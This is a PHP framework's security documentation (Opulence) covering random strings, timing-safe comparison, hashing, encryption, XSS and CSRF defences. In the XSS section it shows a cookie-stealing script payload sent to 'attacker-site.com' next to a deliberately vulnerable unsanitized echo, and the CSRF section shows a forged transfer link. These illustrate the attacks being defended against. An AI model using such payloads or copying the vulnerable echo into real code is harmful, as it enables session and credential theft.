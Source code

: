 # Security

## Table of Contents
1. [Introduction](#introduction)
2. [Generating Random Strings](#generating-random-strings)
  1. [What is It?](#random-strings-what-is-it)
  2. [How to Use It](#random-strings-how-to-use-it)
3. [Comparing Strings](#comparing-strings)
  1. [What is It?](#comparing-strings-what-is-it)
  2. [How to Use It](#comparing-strings-how-to-use-it)
4. [Hashing](#hashing)
  1. [What is It?](#hashing-what-is-it)
  2. [How to Use It](#hashing-how-to-use-it)
5. [Encryption](#encryption)
  1. [What is It?](#encrpytion-what-is-it)
  2. [How to Use It](#encryption-how-to-use-it)
6. [Cross-Site Scripting (CSS)](#cross-site-scripting)
  1. [What is It?](#css-what-is-it)
  2. [How to Defend Against It](#css-how-to-defend-against-it)
7. [Cross-Site Request Forgery (CSRF/XSRF)](#cross-site-request-forgery)
  1. [What is It?](#csrf-what-is-it)
  2. [How to Defend Against It](#csrf-how-to-defend-against-it)

<h2 id="Introduction">Introduction</h2>
Building a secure application is extremely difficult.  Protecting your users from cross-site scripting, cross-site request forgeries, and session hijacking requires a lot of tools.  Fortunately, you don't have to be a security expert to take advantage of all the protection Opulence delivers out of the box.

<h2 id="generating-random-strings">Generating Random Strings</h2>
<h4 id="random-strings-what-is-it">What is It?</h4>
Random strings are commonly used to ensure security for things like session Ids and authentication tokens.  If your random strings are not so random, then your entire application can be compromised.

<h4 id="random-strings-how-to-use-it">How to Use It</h4>
Learn how to [generate random strings](cryptography#generating-random-strings) in Opulence.

<h2 id="comparing-strings">Comparing Strings</h2>
<h4 id="comparing-strings-what-is-it">What is It?</h4>
Comparing sensitive strings, like hashes and tokens, using PHP's `==` operator can give away information about the string you're comparing against.  For example, comparing "aaa" to "bbb" will return `false` faster than "aaa" and "aab" because PHP's comparison operator returns false at the first differing character.  Using 
a sensitive timer and many iterations, a hacker could figure out any secured hash that's being compared with user input.

<h4 id="comparing-strings-how-to-use-it">How to Use It</h4>
Learn how to [securely compare strings](cryptography#string-comparison) in Opulence.
   
<h2 id="hashing">Hashing</h2>
<h4 id="hashing-what-is-it">What is It?</h4>
Hashing involves performing a one-way mapping of input to a hashed value, which is suitable for storing sensitive data.  

<h4 id="hashing-how-to-use-it">How to Use It</h4>
Learn how to [hash data](cryptography#hashing) in Opulence.
   
<h2 id="encryption">Encryption</h2>
<h4 id="encryption-what-is-it">What is It?</h4>
Encryption is the process of encoding data with a special key so that only authorized parties may read it.  

<h4 id="encryption-how-to-use-it">How to Use It</h4>
Learn how to [encrypt data](cryptography#encryption) in Opulence.

<h2 id="cross-site-scripting">Cross-Site Scripting (CSS)</h2>
<h4 id="css-what-is-it">What is It?</h4>
Cross-site scripting involves the injection of client-side scripts into your pages.  A common vulnerability is displaying unsanitized user input to your page:

```php
Hello, <?php echo $_GET["name"]; ?>
```

A malicious user could send an unsuspecting user a hyperlink with a CSS injection in the URL:  `http://your-site.com/?name=<script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>`.  Clicking on the link would take the user to your page, which would display:

```
Hello, <script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>
```

Loading this page would send the user's "user-password" cookie to the attacker's server.

<h4 id="css-how-to-defend-against-it">How to Defend Against It</h4>
To solve this problem you must sanitize any user-input before displaying it on a page.  [Opulence's template system](view-basics#cross-site-scripting) gives you the tools to prevent cross-site scripting.

<h2 id="cross-site-request-forgery">Cross-Site Request Forgery (CSRF/XSRF)</h2>
<h4 id="csrf-what-is-it">What is It?</h4>
Cross-site request forgery is an attack where unauthorized commands are sent to a trusted site through an authenticated user.  For example, a malicious user might send a normal user Bob the following hyperlink:  `http://your-site.com/transferMoney?amount=1000&to=attacker-account-Id`.  If Bob was logged into your site, clicking this link would attempt to transfer money to the attacker's account without Bob's authorization.

<h4 id="csrf-how-to-defend-against-it">How to Defend Against It</h4>
To prevent this from happening, a unique token should be embedded in every form and with every session.  When the form is submitted, the form token and session token should be compared, and if they are not equal, the submission should be rejected.  In the example case above, the form token would not be set.  With CSRF protection in place, the form and session tokens would not match, and the form submission would be rejected.

Opulence automatically generates and compares the tokens using middleware.  To include the token in your form, use the `{{!csrfInput()!}}` template function in your view.  This will create a hidden input with your token, which will validate against the session token.  You can also use the `{{csrfToken()}}` template function to print the token in elements like meta tags:

```php
<meta name="csrf-token" content="{{csrfToken()}}">
```

To give you CSRF protection in JavaScript, Opulence sets the `XSRF-TOKEN` cookie, which some frameworks use to automatically set the `X-XSRF-TOKEN` HTTP header in requests.